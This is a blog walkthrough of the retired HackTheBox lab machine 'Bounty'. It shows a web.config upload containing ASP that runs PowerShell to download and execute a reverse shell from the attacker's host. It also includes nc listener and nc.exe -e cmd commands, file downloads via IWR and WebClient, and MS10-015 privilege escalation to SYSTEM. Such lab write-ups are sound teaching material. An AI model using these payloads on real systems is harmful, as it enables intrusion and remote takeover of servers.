 ```yaml
---
layout: post
title: "HTB-Bounty"
date: 2020-02-16 14:55:00 +0000
categories: HTB-Walkthrough
---
```


![bounty](http://localhost:4000/sh1n0bi-dojo/assets/img/bounty.png)

This is a great box from the HTB 'retired' list.

Diving straight in with nmap then...
`nmap -sV -Pn -v 10.10.10.93 |tee -a boun.txt`

{% highlight ruby %}
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
{% endhighlight %}

Not a great deal of choice...

Lets have a closer look.

{% highlight ruby %}
root@kali:~/HTB/retired/bounty# nmap --script=vuln -p80 10.10.10.93
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-26 07:45 EST
Nmap scan report for bounty.htb (10.10.10.93)
Host is up (0.092s latency).

PORT   STATE SERVICE
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2015-1635:
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2015-1635
|       A remote code execution vulnerability exists in the HTTP protocol stack (HTTP.sys) that is
|       caused when HTTP.sys improperly parses specially crafted HTTP requests. An attacker who
|       successfully exploited this vulnerability could execute arbitrary code in the context of the System accoun>
|
|     Disclosure date: 2015-04-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635
|_      https://technet.microsoft.com/en-us/library/security/ms15-034.aspx

Nmap done: 1 IP address (1 host up) scanned in 273.70 seconds
{% endhighlight %}


Forced-browsing with gobuster...

`gobuster -u http://10.10.10.93 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x .aspx,.asp,.html`

{% highlight ruby %}
=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.93/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : aspx,asp,html
[+] Timeout      : 10s
=====================================================
2019/11/13 09:38:51 Starting gobuster
=====================================================
Progress: 15215 / 882244 (1.72%)/transfer.aspx (Status: 200)
/UploadedFiles (Status: 301)
/uploadedFiles (Status: 301)
/uploadedfiles (Status: 301)
=====================================================
2019/11/13 10:13:53 Finished
=====================================================
{% endhighlight %}

/transfer.aspx is worth looking at closer....

we find that we can only upload web.config files...

we have to create an xml file and call it web.config

{% highlight ruby %}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
       <system.webServer>
              <handlers accessPolicy="Read, Script, Write">
                     <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
              </handlers>
              <security>
                     <requestFiltering>
                            <fileExtensions>
                                   <remove fileExtension=".config" />
                            </fileExtensions>
                            <hiddenSegments>
                                   <remove segment="web.config" />
                            </hiddenSegments>
                     </requestFiltering>
              </security>
       </system.webServer>
</configuration>
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(New-Object Net.WebClient).DownloadString('http://10.10.14.19/shell.ps1');")
o = cmd.StdOut.Readall()
Responsse.write(o)
%>
{% endhighlight %}


If you haven't already, get to know xml files, they can be super useful; and also (perhaps more importantly) get to know useful powershell commands.
the IEX DownloadString one above is very useful, as is the IWR (Invoke-WebRequest) one. You will find them invaluable when working with Windows targets.


Anyway...the exploit above requires us to host the shell.ps1 file so
get a webserver running.
Incidentally, the shell.ps1 file can be found in /usr/share/webshells...modify it to call us on 4444.
we can do this by appending the following to the file...
`Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.19 -Port 4444`

so...the webserver to serve shell.ps1:

`python3 -m http.server 80`

Also get an nc shell running to catch the resulting reverse-shell connection...
`nc -nlvp 4444`

we get PowerShell command-line as user merlin....and access to the user flag.

{% highlight ruby %}
PS C:\users\merlin\desktop> more user.txt
#  e29xxxxxxxxxxxxxxxxxxxf
{% endhighlight %}

The laziest way to continue would be to use windows-exploit-suggester.py

get nc.exe onto target..
`IWR -uri http://10.10.14.19/nc.exe -outfile c:\boo\nc.exe`

...then get cli shell...do
`systeminfo`

copy systeminfo to kali file sysinfo.txt

{% highlight ruby %}
root@kali:~/HTB/retired/bounty# python wes.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-01-26-mssb.xls
[*] done
root@kali:~/HTB/retired/bounty# python wes.py --database 2020-01-26-mssb.xls --systeminfo sysinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*]
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5>
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5>
[*]
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Importa>
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Im>
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
{% endhighlight %}

select ms10-015 to try escalation...not listed here...but does work...I've used it recently and I've got it readily to hand.

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.19/priv.exe','C:\boo\priv.exe')"`


`c:\boo\priv.exe "c:\boo\nc.exe 10.10.14.19 999 -e cmd"`

{% highlight ruby %}
C:\Users\Administrator\Desktop>type root.txt
type root.txt
c8xxxxxxxxxxxxxxxxxxxxea
{% endhighlight %}

It worked !!! If it had failed, I could have gone down the suggested list trying each, If the machine was patched against those vulnerabilities it would have required closer manual or scripted inspection. 

####################################################


